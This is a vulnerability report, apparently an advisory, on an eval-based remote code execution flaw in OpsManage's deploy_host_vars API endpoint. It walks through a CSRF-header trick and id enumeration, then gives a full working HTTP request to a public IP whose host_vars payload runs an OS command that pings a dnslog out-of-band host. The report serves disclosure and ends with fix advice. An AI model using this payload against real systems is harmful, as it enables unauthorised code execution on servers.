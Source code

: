 ## Summary
A **Remote Code Execution** vulnerability was found in OpsManage, which is a Automated Operations and Maintenance Platform. This vulnerability exists in the file **./apps/api/views/deploy_api.py**. In the `deploy_host_vars()` function, when this handler receives an HTTP POST request, if the **`id`** parameter results in a non-empty SQL query, the **`host_vars`** variable will accept the parameters from the request, passing external data into the `eval()` function for execution, ultimately leading to the vulnerability.

## Version
v3.0.1 ≤ version ≤ v3.0.5

## Source Code From
(OpsManage v3.0.5.tar.gz)[https://github.com/welliamcao/OpsManage/archive/refs/tags/v3.0.5.tar.gz]

## Code Analysis
In the latest version (v3.0.5), it is observed that the function `deploy_host_vars(request, id, format=None)` in the file **/apps/api/views/deploy_api.py** is an API endpoint that accepts both GET and POST requests.

The route for this handler consists of two parts, and the final complete route looks like this: `/api/host/vars/123/` (where 123 is the id).

**Part1：**
![image](https://github.com/user-attachments/assets/71e2d6ce-4398-4a86-825b-47a891f6b91f)

**Part2：**
![image](https://github.com/user-attachments/assets/0dee9673-6ac5-495b-b9bd-4c1d0cd91ad6)


In the first try..except block, the model Assets queries the **`id`** parameter to ensure that the **`id`** exists; otherwise, it will return a 404 page.
![image](https://github.com/user-attachments/assets/b15e8ce6-9e68-42b9-8dac-adadcd16ad1a)<br>
This check is easy to bypass, and I will explain the bypass method in **Trigger the vulnerability**.<br>

And then, when a POST request is made with the **`host_vars`** parameter, the variable **`host_vars`** will receive its value. The vulnerability is triggered at this point, as the value is then passed to `eval()` for execution as code.
![image](https://github.com/user-attachments/assets/d291dfdb-184d-41d4-bba2-0a9713d6bd46)

## Trigger the vulnerability
After deploying the environment locally, the process appears quite complex, making it difficult to reproduce the vulnerability. Fortunately, I discovered an official public deployment of the system, so the following process will be carried out on the public deployment.
![image](https://github.com/user-attachments/assets/73d30fae-db2b-4c68-892e-5baeb821aa79)

Log in to the system using the demo account and open the user management interface. I have already added a low-privilege, login-only user named 'host' (with the password host123) using the demo account.
![image](https://github.com/user-attachments/assets/5276db9b-4640-4d43-999e-247adb50b1ad)

Clicking the 🚫 icon on the right of the role shows the assigned permissions for that role. We can see that the 'host' user has no permissions assigned.
![image](https://github.com/user-attachments/assets/d1f3587d-1075-4d0a-b5f5-06faa21e70df)

Log in to the system using **host:host123** and simultaneously capture the **csrftoken** from the `/login/` endpoint in BurpSuite.
![image](https://github.com/user-attachments/assets/0acf6bd4-a3ce-4ce5-bfec-2b8c0e50939b)<br>
Then, obtain the **sessionid** from any other requests and record them all.

Since `/api/host/vars/123/` is a Django REST API endpoint, and OpsManage has CSRF filtering enabled by default, if you try to access it directly with the **csrftoken** from `/login/`, you will see the message **'CSRF token missing or incorrect.'**<br>
![image](https://github.com/user-attachments/assets/261670ec-4c8c-42f9-84de-8128d785e50b)<br>

I bypassed the middleware check by setting the **X-CSRFTOKEN** request header. Specifically, I set the value of **X-CSRFTOKEN** to match the **csrftoken** from the cookie.<br>
![image](https://github.com/user-attachments/assets/d09b3158-64e8-4e65-9682-70490797756d)<br>

It returned a 404 page, which means we have at least entered the endpoint's execution logic. <br>
To obtain a valid **`id`**, I used an enumeration method to check which **`id`** would return a different response.<br>
![image](https://github.com/user-attachments/assets/56710a11-2c0f-41fb-94fa-452f3867671d)<br>
Clearly, those are the ones.  

I used the `ping` command to verify the effect of command execution. After changing the **`id`** to **10** and adding the **`host_vars`** parameter with Python code, I sent the request.<br>
![image](https://github.com/user-attachments/assets/6582dcc8-2a14-45d6-a741-96e4ff462a04)<br>
In the DNS log, I can see that the domain was requested, which indicates that the code execution was successful.

## Payload
```
POST http://42.194.214.22:8000/api/host/vars/10/ HTTP/1.1
Host: 42.194.214.22:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 71
Origin: http://42.194.214.22:8000
DNT: 1
Connection: close
Referer: http://42.194.214.22:8000/login/
Cookie: csrftoken=KGkFpRkuCXci60JBgUI5nGxXcDIkifhrZBVP760X4zJtYi5H70kynu6bbiqzb036; sessionid=xodr9tlwkgteuqebiqg5gjrsmj7p02t1
Upgrade-Insecure-Requests: 1
Priority: u=0, i
X-CSRFTOKEN: KGkFpRkuCXci60JBgUI5nGxXcDIkifhrZBVP760X4zJtYi5H70kynu6bbiqzb036

host_vars=__import__('os').system('ping%20-c%201%201b4zxr.dnslog.cn')

```

## Fix Recommendations
1. Add permissions for endpoint **deploy_host_vars**
2. Filter the value of **`host_vars`** to prevent unexpected code execution.
